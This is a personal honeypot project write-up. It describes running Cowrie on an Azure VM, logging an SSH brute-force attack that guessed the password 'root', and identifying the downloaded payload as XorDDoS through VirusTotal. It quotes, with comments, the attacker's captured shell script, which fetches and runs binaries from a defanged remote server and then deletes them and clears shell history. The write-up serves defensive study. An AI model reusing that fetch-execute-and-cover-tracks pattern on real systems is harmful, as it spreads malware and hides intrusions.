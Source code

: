 ```yaml
---
layout: default
---
```

### [Home](../../index.md) | [Projects](../index.md)

# Cowrie & The Infrastructure Used

Cowrie is a honeypot designed to log brute-force attacks and attacker shell interactions. It supports ingesting logs into various log aggregation services. Since I have extensive experience with SQL, I chose to store its logs in a MySQL database.

### Infrastructure:

- Azure Virtual Machine
 - Linux (Ubuntu Server 24.04)
  - Services:
   - Cowrie (Honeypot)
   - MySQL (Log Storage)
   
 ## Running Cowrie
 
 I ran Cowrie for just half a day, and even in that short time, I observed some very interesting and suspicious behavior. Almost immediately, I started seeing clear signs of brute-force attacks.
 
![Brute Force Start](project_images/sql_bf.png)
 
From this image, we can see an attack originating from **218.92.0.186**. Other random IPs also appear from time to time, which we will discuss later.

To see the full extent of this brute-force attack, you can review the .csv file [here](project_files/auth_ip.csv).

We can see that the brute-force attack started at _12:40:02_ from IP **218.92.0.186**. The attacker successfully gained access to the system at _15:08:35_, meaning it took them a little over two hours to guess the correct password—**root**.

![Brute Force Success](project_images/bf_success)

It appears that the attacker used **218.92.0.186** to carry out the brute-force attack and, once successful, handed access over to **218.92.0.131**, likely to handle malware delivery.

#### Here is a report from _VirusTotal_ on both IPs:

*	[218.92.0.186](https://www.virustotal.com/gui/ip-address/218.92.0.186)
*	[218.92.0.131](https://www.virustotal.com/gui/ip-address/218.92.0.131)

Now that the attacker is inside our Honeypot we can track every command they run.

![Malware Delivery](project_images/inputs.png)

From this image we can clearly see the attacker ran a script and downloaded something from another IP using _wget_ and _curl_, lets break this command down. 

```
#!/bin/sh
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; # Ensures standard system paths are included in the script’s environment. 
wget hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the file "112" using wget.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the same file using curl, ensuring it keeps the original filename.
chmod +x 112;  # Makes "112" executable.
./112;  # Executes "112".
wget hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads another file named "112s" from the same server.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads "112s" while preserving its name.
chmod +x 112s;  # Makes "112s" executable.
./112s;  # Executes "112s".
rm -rf 112.sh;  # Deletes "112.sh".
rm -rf 112;  # Deletes "112" after execution.
rm -rf 112s;  # Deletes "112s" after execution.
history -c  # Clears the shell history to erase evidence of the commands.

```

**Note:** I have defanged the IP of the malware-hosting server for safety.
It appears that the attacker runs both wget and curl, likely to ensure the download succeeds in case one of the utilities is unavailable on the system.

## The Malware

We can see that the attacker downloaded something—but what?
Luckily for us, Cowrie has excellent logging and provides a SHA-256 hash of the downloaded file.

![SQL Hash](project_images/sql_shasum.png)

**SHA-256 Hash:** ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73

Now that we have the hash, we can submit it to VirusTotal to analyze it and determine what kind of malware we’re dealing with.

![Virus Total Hash](project_files/virustotal_hash.png)

See the full report from _VirusTotal_ [here](https://www.virustotal.com/gui/file/ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73)

## XorDDoS: The Malware Behind the Attack

From this report, we can see that this file is identified as a Trojan linked to XorDDos, a well known Linux malware strain used to launch DDoS attacks.

#### What is XorDDoS:

*	XorDDoS is a Linux-based malware that has been active since at least 2014.
*	It gets its name from its use of XOR-based encryption to obfuscate communication between infected machines and the command-and-control (C2) servers.
*	XorDDoS primarily targets Linux servers and IoT devices, turning them into botnets to launch massive DDoS attacks against websites and infrastructure.
*	Once inside, it downloads additional payloads, executes them, and then cleans up traces by deleting logs—exactly what we saw in our attack!

#### XorDDos Capabilities:

*	**Launching DDoS Attacks** – Uses infected machines to generate high-volume traffic aimed at bringing down targets.
*	**Persistence & Evasion** – It modifies system settings to survive reboots and evade detection.
*	**Backdoor Functionality** – Allows remote attackers to execute arbitrary commands on the compromised system.
*	**Obfuscation** – Uses XOR-based encryption to disguise network traffic.

#### What This Means for Our Honeypot:

*	The attacker brute-forced their way into our honeypot.
*	They quickly downloaded a XorDDoS variant and executed it.
* 	Their goal was likely to recruit our system into a botnet to launch DDoS attacks against other targets.
*	They also attempted to cover their tracks by deleting logs and clearing history.

#### Key Takeaways

*	Cowrie provided valuable insights into how attackers deliver and execute malware.
*	XorDDoS remains an active Linux threat, and honeypots like this help expose its tactics.

## Conclusion

This experiment with Cowrie provided a firsthand look at real-world SSH brute-force attacks and malware delivery techniques. By capturing and analyzing attacker activity, we uncovered how XorDDoS spreads and operates. This highlights the importance of strong authentication, monitoring logs, and proactive security measures to defend against such threats.

### Docs
*	[Cowrie Docs](https://docs.cowrie.org/en/latest/)
*	[Cowrie GitHub](https://github.com/cowrie/cowrie)




### Contact
Sean McGovern

La Grange, North Carolina 

[Linkedin](https://www.linkedin.com/in/sean-mcgovern-310457272/) 












